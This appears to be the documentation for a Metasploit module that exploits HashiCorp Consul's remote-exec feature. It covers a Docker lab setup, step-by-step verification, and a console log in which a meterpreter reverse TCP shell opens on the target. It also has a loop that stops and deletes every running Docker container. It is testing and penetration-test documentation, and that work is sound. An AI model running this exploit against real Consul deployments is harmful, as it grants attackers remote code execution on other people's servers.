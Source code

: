 ## Vulnerable Application

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.


#### References

* Consul Exec - https://www.consul.io/docs/commands/exec.html
* Consul _disable_remote_exec_ option - https://www.consul.io/docs/agent/options.html#disable_remote_exec
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
docker run -d --name=consul_bootstrap_server consul agent -server -client=172.17.0.1 -bootstrap -data-dir /tmp/consul
sleep 2

docker run -d --name=consul_server_1 consul agent -server -client=172.17.0.2 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.2

docker run -d --name=consul_server_2 consul agent -server -client=172.17.0.3 -data-dir /tmp/consul
sleep 2
docker exec -t consul_bootstrap_server consul join -http-addr="172.17.0.1:8500" 172.17.0.3

docker run -d -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "disable_remote_exec":false}' consul agent -ui -client=172.17.0.4 -retry-join=172.17.0.1

sleep 4
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="172.17.0.1:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
23e8aa4687846382e601ec3c5a66d6db9448518647996f8fd8fdbcdde7f612cf
b28c7929c2a2141c162a35d635af48fdafd70f6c03bee61445e7e78f4e76af84
Successfully joined cluster by contacting 1 nodes.
7c53a6f486426ad6ab4886f3f7b85481932333850d0046280ca082ff1bb79358
Successfully joined cluster by contacting 1 nodes.
a58ec109f45029352a94721ee2e7c9c80a9c94178af8efd15279951da8ed0cab
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
23e8aa468784  172.17.0.1:8301  alive   server  1.0.6  2         dc1  <all>
7c53a6f48642  172.17.0.3:8301  alive   server  1.0.6  2         dc1  <all>
b28c7929c2a2  172.17.0.2:8301  alive   server  1.0.6  2         dc1  <all>
a58ec109f450  172.17.0.4:8301  alive   client  1.0.6  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your running docker containers** (so be careful if you use docker containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps | grep -v CONTAINER | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST 172.17.0.4`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
